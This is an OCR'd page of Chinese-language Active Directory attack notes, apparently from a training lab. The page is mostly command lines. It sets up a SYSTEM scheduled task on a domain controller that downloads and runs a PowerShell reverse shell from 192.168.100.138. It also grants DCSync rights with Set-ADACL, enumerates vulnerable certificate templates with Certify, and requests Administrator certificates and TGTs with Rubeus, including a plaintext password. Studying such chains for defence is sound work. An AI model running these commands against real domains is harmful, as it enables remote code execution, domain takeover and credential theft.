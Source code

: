 当创建好银票后，定时任务返回revshell
```
PS C:\Windows\system32> schtasks /create /S us-dc.us.techcorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "User138" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.138/Invoke-PowerShellTcpEx.ps1''')'"
```

触发定时任务

```
schtasks /Run /S us-dc.us.techcorp.local /TN "User138"
```

# 枚举当前账号是否有dcsync权限

pv
```
 Get-DomainObjectAcl -SearchBase "dc=us,dc=techcorp,dc=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentuser138"}
```

# 设置DCsync权限
pv
```
Set-ADACL -DistinguishedName 'DC=us,DC=techcorp,DC=local' -SamAccountName studentuser138 -GUIDRight DCSync -Verbose
```

# CS证书枚举

```
Certify.exe cas

Certify.exe find

Certify.exe find /enrolleeSuppliesSubject    #这里的结果表示谁可以创建模板证书
```

## 根据证书申请tgt
```
Rubeus.exe asktgt /user:pawadmin /certificate:C:\AD\Tools\pawadmin.pfx /password:SecretPass@123 /nowrap /ptt
```

## 为DA申请一个模板证书（后续可以根据整个证书申请DA的tgt，参考上面）
```
Certify.exe request /ca:Techcorp-DC.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator
```
